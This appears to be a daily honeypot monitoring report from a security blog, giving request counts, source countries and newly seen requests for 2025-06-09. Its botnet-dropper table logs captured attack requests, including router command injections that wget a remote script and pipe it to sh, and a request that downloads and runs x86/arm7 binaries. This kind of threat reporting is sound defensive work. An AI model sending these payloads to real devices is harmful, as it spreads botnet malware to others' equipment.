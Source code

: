 ```yaml
---
title: "Report: 2025-06-09 "
date: 2025-06-09
desciption: "Report: 2025-06-09" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-09 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 8 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 3781 requests were recorded during the day, originating from 5 different countries, with a peak of 2676 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                            |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 87.121.84.34  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.59.40.187/x/tplink+-O-|sh) HTTP/1.1                                                          |
| 141.98.11.147 | GET /shell?cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/x86;chmod+777+*;./x86+x86;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm7;chmod+777+*;./arm7+arm7 HTTP/1.1 |
| 87.121.84.34  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://45.125.66.79/x/tplink+-O-|sh) HTTP/1.1                                                          |
| 195.3.221.137 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://45.125.66.79/x/tplink+-O-|sh) HTTP/1.1                                                          |
| 195.3.221.137 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.59.40.187/x/tplink+-O-|sh) HTTP/1.1                                                          |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                     |
|-----:|----------------------:|:--------------------------------------------|
|  117 |                     2 | GET /portalapi/actuator HTTP/1.1            |
| 1076 |                     1 | \x00\x0E\x08-_\xDFOI\x1D                    |
| 1077 |                     1 | \x00\x0E8-_\xDFOI\x1D                       |
| 1095 |                     1 | GET /login.php HTTP/1.0                     |
| 1096 |                     1 | GET /Odin/http/call1749466205 HTTP/1.1      |
| 1098 |                     1 | GET /OdinHttpCall1749466205 HTTP/1.1        |
| 1100 |                     1 | GET /odinhttpcall1749466205 HTTP/1.1        |
| 1111 |                     1 | POST /goform/setUSBPartitionUmount HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  2676 | GB                 |
|  1 |                   365 | US                 |
|  2 |                   222 | BG                 |
|  3 |                    73 | DE                 |
|  4 |                    73 | CA                 |
|  5 |                    63 | NL                 |
|  6 |                    42 | SC                 |
|  7 |                    35 | PL                 |
|  8 |                    30 | JP                 |
|  9 |                    24 | NG                 |
| 10 |                    14 | VN                 |
| 11 |                    14 | IN                 |
| 12 |                    14 | HK                 |
| 13 |                    11 | AU                 |
| 14 |                    10 | MD                 |
| 15 |                    10 | LT                 |
| 16 |                    10 | FR                 |
| 17 |                     9 | IL                 |
| 18 |                     8 | HU                 |
| 19 |                     7 | GH                 |
| 20 |                     7 | ZA                 |
| 21 |                     6 | TH                 |
| 22 |                     5 | CN                 |
| 23 |                     4 | ID                 |
| 24 |                     4 | IR                 |
| 25 |                     4 | BE                 |
| 26 |                     4 | RU                 |
| 27 |                     4 | KR                 |
| 28 |                     4 | AO                 |
| 29 |                     4 | TR                 |
| 30 |                     3 | UA                 |
| 31 |                     2 | PK                 |
| 32 |                     2 | CH                 |
| 33 |                     2 | KZ                 |
| 34 |                     2 | SG                 |
| 35 |                     2 | AR                 |
| 36 |                     2 | MY                 |
| 37 |                     2 | IT                 |
| 38 |                     1 | MC                 |
| 39 |                     1 | BR                 |
| 40 |                     1 | MX                 |
| 41 |                     1 | PA                 |
| 42 |                     1 | PT                 |
| 43 |                     1 | ES                 |
| 44 |                     1 | SE                 |
| 45 |                     1 | IE                 |
